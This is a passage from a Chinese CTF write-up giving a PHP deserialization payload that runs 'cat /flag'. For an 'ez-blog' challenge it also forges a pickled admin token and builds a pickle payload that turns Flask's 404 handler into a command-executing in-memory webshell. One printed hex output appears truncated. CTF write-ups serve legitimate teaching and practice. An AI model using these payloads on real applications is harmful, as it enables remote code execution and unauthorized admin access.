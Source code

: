 ![image-20251011092115371](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419964.png)

但问ai的更短

```
payload=O%3A1%3A%22H%22%3A1%3A%7Bs%3A3%3A%22who%22%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A4%3A%22next%22%3BO%3A1%3A%22V%22%3A2%3A%7Bs%3A6%3A%22dowhat%22%3Bs%3A6%3A%22secret%22%3Bs%3A2%3A%22go%22%3BO%3A1%3A%22E%22%3A1%3A%7Bs%3A5%3A%22found%22%3BO%3A1%3A%22F%22%3A1%3A%7Bs%3A9%3A%22finalstep%22%3Bs%3A1%3A%22u%22%3B%7D%7D%7D%7D%7D
&cmd=cat%20/flag
```



### ez-blog

提示`访客只能用访客账号登录哦！`，先用guest/guest登录，发现分配了一个token：`8004954b000000000000008c03617070948c04557365729493942981947d94288c026964944b028c08757365726e616d65948c056775657374948c0869735f61646d696e94898c096c6f676765645f696e948875622e`

所以先想到伪造，登录上admin

```python
import binascii

hexs = "8004954b000000000000008c03617070948c04557365729493942981947d94288c026964944b028c08757365726e616d65948c056775657374948c0869735f61646d696e94898c096c6f676765645f696e948875622e"
data = binascii.unhexlify(hexs)

# 将 b"\x8c\x08is_admin\x94\x89" 中的 0x89 -> 0x88
old = b"\x8c\x08is_admin\x94\x89"
new = b"\x8c\x08is_admin\x94\x88"
assert old in data, "未找到 is_admin=False 片段"
forged = data.replace(old, new, 1)

print(binascii.hexlify(forged).decode())
#8004954b000000000000008c03617070948c04557365729493942981947d94288c026964944b028c08757365726e616d65948c056775657374948c0869735f61646d696e94888c096c6f676765645f696e948875622
```

测试发现blog中不存在ssti，只能打内存马

思路：取 404 的异常类与状态码：`app._get_exc_class_and_code(404)`

将 Flask 的 404 错误处理器改写为：`lambda a: __import__('os').popen(request.args.get('huaji')).read()`

```python
import binascii,pickle

class ys():
    def __reduce__(self):
        return (exec,("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('ys')).read()",))

payload=pickle.dumps(ys())
print(binascii.hexlify(payload))
#b'800495da000000000000008c086275696c74696e73948c04657865639493948cbe676c6f62616c206578635f636c6173733b676c6f62616c20636f64653b6578635f636c6173732c20636f6465203d206170702e5f6765745f6578635f636c6173735f616e645f636f646528343034293b6170702e6572726f725f68616e646c65725f737065635b4e6f6e655d5b636f64655d5b6578635f636c6173735d203d206c616d62646120613a5f5f696d706f72745f5f28276f7327292e706f70656e28726571756573742e617267732e676574282779732729292e72656164282994859452942e'
```
